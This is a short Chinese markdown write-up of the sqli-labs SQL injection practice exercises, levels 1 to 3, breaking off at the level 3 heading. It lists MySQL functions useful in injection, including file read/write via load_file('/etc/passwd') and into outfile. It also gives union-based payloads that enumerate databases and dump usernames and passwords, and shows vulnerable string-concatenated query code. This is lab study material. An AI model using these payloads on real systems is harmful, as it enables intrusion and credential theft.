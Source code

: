 ```yaml
---

layout: post

title: "SQL注入   sqli-lab 1-20"

author: "markt"

---
```




## 基础知识

- [mysql字符串相关函数](https://justdo2008.iteye.com/blog/1141609)

- 字符串连接函数group_concat() 与concat()：返回多列时用前者，一行时用后者，简单理解就是：

  `select group_concat(user,password) from users  == select concat(user,password) from users limit 1`

- 字符串分割函数substring(),substr(),left(),right(),mid()：

- 字符串与ASCII码互转函数ascii(),char():

- if(exp1,exp2,exp3): 如果exp1成立则返回exp2否则返回exp3；

- benchmark(10,exp1):把exp1执行10次，一般执行计算量比较大的比如sha(1),md5(1)；

- 文件读写函数：

  - `select 1 into outfile '/tmp/1.txt'  /  select 1 into dumpfile '/tmp/1.txt'`
  - `select load_file('/etc/passwd')`

### lv.1

`id=1' limit 0 union select 1,2,group_concat(schema_name) from information_schema.schemata -- `

简单的union联合注入，手工一步步即可拿到所有数据

| select      | from                        | where          |
| ----------- | --------------------------- | -------------- |
| schema_name | information_schema.schemata |                |
| table_name  | information_schema.tables   | table_schema = |
| column_name | information_schema.columns  | table_name =   |

### lv.2

字符型注入：`sql = 'select * from user where id = "' + get_id+'"'` （ lv.1）

数字型注入：`sql = 'select * from user where id = ' + get_id` ( lv.2 )

id=1111 union select 1,group_concat(username),group_concat(password) from users # 

### lv.3
